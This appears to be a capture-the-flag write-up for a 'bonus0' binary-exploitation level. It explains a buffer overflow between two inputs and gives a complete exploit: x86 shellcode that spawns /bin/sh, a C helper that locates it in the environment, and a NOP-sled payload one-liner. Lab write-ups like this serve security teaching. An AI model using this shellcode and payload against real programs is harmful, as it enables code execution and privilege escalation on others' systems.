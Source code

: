 # bonus 0

In this level, we have an executable which can take two different values, after a certain point, the second parameter overflow in the first one and if we fill too much both variables, it produces a segfault

With gdb or any other tool such as ghidra, cutter etc, we can see that the buffer of the first variable is 4096. The idea will be to go at the end of this buffer and inject our shellcode

```bash
export SHELLCODE=$(python -c 'print("\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80")')
```

We will fill the buffer with some NOP and inject the address of our shellcode

here we have a little program to get the address of our shellcode:

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char** argv)
{
  printf("env address at %p\n", getenv(argv[1]));
  return (0);
}
```

```bash
(python -c "print('\x90' * 4095 + '\n' + '\x90' * 9 + '\xbf\xff\xf8\xe9'[::-1]) + '\x90' * 7"; cat) | ./bonus0
```